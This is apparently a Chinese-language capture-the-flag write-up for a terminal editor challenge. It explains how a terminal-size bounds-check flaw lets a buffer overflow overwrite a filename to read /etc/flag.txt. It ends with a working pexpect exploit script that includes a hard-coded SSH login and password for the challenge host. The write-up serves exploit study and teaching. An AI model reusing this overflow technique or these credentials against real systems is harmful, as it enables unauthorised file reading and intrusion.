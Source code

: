 

![image-20210726144723568](https://i.loli.net/2021/07/26/aFgSE3DCmYHQXhV.png)

![image-20210726144811161](https://i.loli.net/2021/07/26/pm2l14cyijOQBu6.png)

![image-20210726144854063](https://i.loli.net/2021/07/26/qFNvIwJLT93Ad8c.png)

![image-20210726144950572](https://i.loli.net/2021/07/26/u6hmQTEgkWs8P9c.png)

![image-20210726145019339](https://i.loli.net/2021/07/26/w7XoRJEpkxjLVUz.png)

文件相关的功能主要是读取文件名, 然后写入文件或者打开文件, 其实是可以实现一个任意文件读写的能力, 

但是在`read_filename`函数中这里不允许`..`而且不允许`/`字符, 于是无法读取到`/etc/flag.txt`, 

![image-20210726145844799](https://i.loli.net/2021/07/26/UmSZGicFDM759yw.png)

### 利用

也没有个堆/栈啥的, 大概的思路就是溢出`GlobalBuffer`往后改掉`FileName`:

![image-20210726152816302](https://i.loli.net/2021/07/26/Nk9anvqPKRuTh73.png)

然后漏洞应该是在main函数中对于xy的check是检测maxx maxy, 这两个是通过函数`getsize`获得, 其实是终端的大小, 我们测试也可以发现终端大小是会导致显示不同的,

> 题目描述给的book文件, 终端全屏可以显示更多信息, 

然后之前是到这里就手动去测试了, 想来应该理解到, 如果真的溢出的话也是要通过脚本进行利用的, 所以应该要去找可以修改终端大小的脚本, 然后再调试利用.

> 复现的时候用了pexpect这个库, 好像用pwntools没有setwinsize这个解决方案, 恰好翻到[zio](https://github.com/zTrix/zio/blob/master/zio.py#L1769)其实也有, 但是也是抄的pexpect的.

其实就是向下501步(500*501=0x3d090+0x1f4), 然后填充0x1c(28)个字符, 就是filename了,写入/etc/flag即可.

```python
import pexpect 
import sys

F2   = "\x1bOQ"
F3   = "\x1bOR"
F4   = "\x1bOS"
F5   = "\x1b[15~"
F10  = "\x1b[21~"

DELE = "\x7f"

END  = "\x1bOF"

UP   = "\x1bOA"
DOWN = "\x1bOB"
RIGH = "\x1bOC"
LEFT = "\x1bOD"

local = int(sys.argv[1])

if local:
    cn =  pexpect.spawn("./bin")
else:
    cn = pexpect.spawn("ssh tolstoy@64.227.123.153")
    cn.expect("password:")
    cn.sendline("W&P1867")

cn.setwinsize(505, 500)
cn.send(DOWN * 501)
cn.send("a" * 28)
cn.send("/etc/flag.txt")
```